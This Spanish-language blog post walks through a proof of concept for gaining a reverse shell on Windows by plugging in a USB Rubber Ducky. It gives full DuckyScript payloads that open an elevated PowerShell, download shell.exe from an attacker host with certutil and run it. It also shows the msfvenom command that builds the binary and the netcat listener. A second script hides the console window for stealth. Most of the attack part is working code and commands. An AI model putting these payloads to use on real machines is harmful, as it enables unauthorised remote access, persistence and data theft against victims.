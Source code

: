 ```yaml
---
layout: single
title: POC Rubber Ducky Rev Shell
excerpt: "Buenas! Hoy os voy a compartir como utilizar una herramienta de Hak5, aunque también se puede hacer de forma casera, en mi caso es el RubberDucky de Hak5."
date: 2021-09-20
classes: wide
header:
  teaser: /assets/images/RubberDuckyRevShell/Untitled.png
  teaser_home_page: true
  icon: 
categories:
  - POC RubberDucky
  - infosec
tags:
  -   POC
  -   Video
  -   RubberDucky
  -   Reverse Shell
---
```


# Rubber Ducky Rev Shell

![Untitled](/assets/images/RubberDuckyRevShell/Untitled.png)

Buenas! Hoy os voy a compartir como utilizar una herramienta de Hak5, aunque también se puede hacer de forma casera, en mi caso es el RubberDucky de Hak5.

Imagínese enchufar una unidad USB aparentemente inocente en una computadora e instalar puertas traseras, filtrar documentos o capturar credenciales.

El USB Rubber Ducky inyecta pulsaciones de teclas a velocidades sobrehumanas, violando la confianza inherente que las computadoras tienen en los humanos al hacerse pasar por un teclado.

Mencionar algunos ataques brevemente:
* Recolección de información del sistema operativo.
* Robar información importante de los navegadores de Internet.
* Robar y usar las cookies de las sesiones abiertas.
* Hacer capturas de pantalla del escritorio y carpetas importantes del sistema.
* Robar y utilizar las contraseñas de las conexiones WiFi de la víctima.
* Subir la información a traves un servidor FTP.

 Ataques dirigidos al sistema:
* Agregar usuarios con permisos administrativos al equipo de la víctima.
* Borrar usuarios del sistema.
* Hacer Pharming de DNS.
* Infección del sistema descargando y ejecutando un binario de Internet.
* Crackear passwords del administrador en el sistema.
* Crear un Backdoor WiFi.
* Bloquear programas en el sistema operativo de forma sigilosa.

Despues de esta breve introduccion, vamos a lo que nos interesa, ¿Cómo se pone en marcha este dispositivo?

El RubberDucky se compone de estos elementos:

![Untitled](/assets/images/RubberDuckyRevShell/Untitled%201.png)

El 1º elemento es una tarjeta MicroSD de 128mb en este caso

El 2º elemento es el dispositivo que voy a usar para controlar los archivos que quiero meter en la tarjeta MicroSD

El 3º elemento es el RubberDucky desenfundado, una vez que este todo listo metemos la tarjeta en el Rubberducky y ya esta listo para la acción.

 Su uso es muy sencillo, os lo voy a explicar en los siguientes pasos:

## 1º Paso

En este caso voy a programar una reverse shell a mi equipo en el Rubberducky, por lo que nos iremos a la pagina → [https://ducktoolkit.com/encode#](https://ducktoolkit.com/encode#)

Y programaremos los comandos que se van a ejecutar cuando ingresemos el RubberDucky:

![Untitled](/assets/images/RubberDuckyRevShell/Untitled%202.png)

En la primera parte ingresaremos nuestro código:

```powershell
DELAY 750
GUI r
DELAY 1000
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 750
STRING certutil.exe -urlcache -f http://192.168.234.130/shell.exe C:\Windows\Temp\shell.exe
ENTER
DELAY 500
STRING Start-Process -FilePath "C:\Windows\Temp\shell.exe"
ENTER
```

Con `DELAY` → Hacemos que el programa espere cierta cantidad de tiempo

Con `GUI r` → Seria el equivalente a Windows + R

Con `STRING` → Le decimos que comando queremos escribir

Con `Enter` → Hace la función de la tecla ↲

Una vez terminado el script, seleccionamos el idioma

Le damos a Encode Payload

Y nos lo descargamos

## 2º Paso

En nuestra maquina atacante nos crearemos el binario malicioso, en este caso con la herramienta `msfvenom` 

`msfvenom -p windows/shell_reverse_tcp lhost=192.168.234.130 lport=443 -f exe > shell.exe`

```bash
root@kali /home/kali/Desktop/POCRubberDucky
❯ msfvenom -p windows/shell_reverse_tcp lhost=192.168.234.130 lport=443 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Nos compartimos un servidor http con `python` y nos ponemos en escucha con `netcat`

```bash
root@kali /home/kali/Desktop/POCRubberDucky
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

─────────────────────────────────────────────────────────────────────────────────────────────
root@kali /home/kali/Desktop/POCRubberDucky
❯ rlwrap nc -nlvp 443                  
listening on [any] 443 ...
```

## 3º Paso

Meter el inject.bin descargado en la MicroSD

![Untitled](/assets/images/RubberDuckyRevShell/Untitled%203.png)

Sacamos la MicroSD y la metemos en el RubberDucky:

![Untitled](/assets/images/RubberDuckyRevShell/Untitled%204.png)

## 4º Paso

Metemos el RubberDucky al sistema Windows que queremos vulnerar:

<iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/coCoG7R6XKw" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

De esta forma conseguimos ganar acceso a un sistema en tan solo 10 segundos.

Pero si os dais cuenta, en el sistema Windows se quedan las terminales abiertas y se ven como se ejecutan los comandos, una forma mas sigilosa y mas rapida seria programar el script de esta forma:

```powershell
DELAY 750
GUI r
DELAY 500
STRING powershell Start-Process powershell -Verb runAs
ENTER
ALT y
DELAY 400
ENTER
ALT SPACE
DELAY 300
STRING m
DELAY 300
DOWNARROW
REPEAT 100
ENTER
STRING certutil.exe -urlcache -f http://192.168.234.130/shell.exe C:\Windows\Temp\shell.exe
ENTER
DELAY 300
STRING Start-Process -FilePath "C:\Windows\Temp\shell.exe"
ENTER
STRING exit
ENTER
```

![Untitled](/assets/images/RubberDuckyRevShell/Untitled%205.png)

Se ejecutaría de esta forma:

<iframe width="560" height="315" src="https://www.youtube-nocookie.com/embed/lKdGUfEHlO8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

Como vemos es una herramienta muy sencilla de utilizar, espero que os haya gustado, si veo que a la gente le gusta quizás traiga otros scripts mas adelante.